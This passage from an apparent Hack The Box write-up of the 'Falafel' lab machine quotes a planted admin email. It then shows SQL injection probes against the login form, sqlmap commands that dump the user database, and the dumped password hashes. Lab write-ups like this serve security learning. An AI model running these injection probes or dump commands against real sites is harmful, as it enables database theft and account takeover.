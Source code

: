 The text file _cyberlaw.txt_ has the following content:
```markdown
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin
```

When using _chris_ as the username on the login form, it also displays the message _"Wrong identification : chris"_.
After trying out default **SQL Injection** attempts, it seems to be vulnerable to that as the username _"admin'-- -_ responds with the same message as before.

It shows the message _"Hacking Attempt Detected!_ when trying out an **Union SQL Injection** (_"admin' union select 1-- -"_), so there is some kind of filter implemented.
This means there is some type of **Boolean-based SQL Injection** vulnerability.

### Exploiting SQL Injection Vulnerability

Lets send the request to a proxy tool like **Burpsuite** and save it into a file called _falafel_web.req_ and then send this to **SQLmap** and specify the message to scan for the injection vulnerability:
```markdown
sqlmap -r falafel_web.req --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,password --batch
```

It found the boolean-based blind SQL Injection vulnerability and we can dump the contents of the database:
```markdown
sqlmap -r falafel_web.req --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,password --batch --dump
```
```markdown
+----+--------+---------------------------------------------+----------+
| ID | role   | password                                    | username |
+----+--------+---------------------------------------------+----------+
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |
+----+--------+---------------------------------------------+----------+
```
